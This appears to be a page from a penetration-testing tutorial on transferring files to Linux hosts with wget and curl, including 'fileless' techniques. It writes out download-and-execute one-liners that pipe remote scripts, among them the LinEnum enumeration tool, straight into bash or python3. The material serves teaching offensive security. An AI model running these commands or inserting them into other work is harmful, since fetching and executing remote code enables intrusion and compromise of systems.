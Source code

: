 ### Web Downloads with Wget and cURL

Two of the most common utilities in Linux distributions to interact with web applications are `wget` and `curl`. These tools are installed on many Linux distributions.

**Download a File Using wget:**
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

**Download a File Using cURL:**
```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

**Common wget Options:**
- `-O` - Set output filename
- `-q` - Quiet mode (suppress output)
- `-c` - Continue partial downloads
- `-r` - Recursive download
- `--user-agent` - Set custom user agent

**Common cURL Options:**
- `-o` - Write output to file
- `-O` - Write output to file (use remote filename)
- `-s` - Silent mode
- `-L` - Follow redirects
- `-k` - Allow insecure SSL connections

### Fileless Attacks Using Linux

Because of the way Linux works and how pipes operate, most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

**⚠️ Note:** Some payloads such as `mkfifo` write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

**Fileless Download with cURL:**
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

**Fileless Download with wget:**
```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

**Download and Execute Python Script:**
```bash
curl -s https://example.com/script.py | python3
```

**Download and Execute Bash Script:**
```bash
wget -qO- https://example.com/script.sh | bash
```

